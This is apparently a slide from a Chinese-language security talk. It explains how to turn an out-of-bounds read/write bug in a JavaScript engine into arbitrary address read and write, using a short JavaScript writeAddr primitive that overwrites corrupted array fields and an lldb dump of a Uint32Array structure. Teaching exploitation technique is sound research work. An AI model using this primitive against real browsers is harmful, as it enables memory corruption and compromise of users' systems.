

把越界读写漏洞转化为任意地址读写漏洞（AAW/AAR）

function writeAddr(highaddr,lowaddr,highval,lowval){
    attempts[750000][4]=lowaddr;
    attempts[750000][5]=highaddr;
    attempts[750001][0]=lowval;
    attempts[750001][1]=highval;
}
                              (lldb) x -f p 0x18cf53880(Uint32Array)结构，大小0x20字节
		0x18cf53880: 0x00082a00000001ee 0x000000018cf4da38 0x000000018cf538a0 0xffff000031313131
		0x18cf538a0: 0x00082a00000001ee 0x000000018cf4da48 0x0000000125887900 0x0000000200000